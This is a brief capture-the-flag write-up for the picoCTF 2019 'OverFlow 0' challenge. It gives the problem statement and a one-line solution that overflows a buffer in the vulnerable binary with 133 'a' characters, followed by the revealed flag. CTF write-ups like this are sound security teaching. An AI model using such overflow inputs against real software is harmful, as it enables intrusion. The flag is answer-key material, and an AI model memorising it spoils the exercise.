 # OverFlow 0 

## Problem
This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/8df893afa5d4ecda515901499b0fdd52/vuln) and get a flag. Its also found in /problems/overflow-0_1_54d12127b2833f7eab9758b43e88d3b7 on the shell server. [Source](https://2019shell1.picoctf.com/static/8df893afa5d4ecda515901499b0fdd52/vuln.c).

## Solution
The name is the give away.  Buffer overflow.
```
wiglaf1979@pico-2019-shell1:/problems/overflow-0_1_54d12127b2833f7eab9758b43e88d3b7$ ./vuln `python -c "print 'a'*(133)"`
picoCTF{3asY_P3a5yb197d4e2}
```

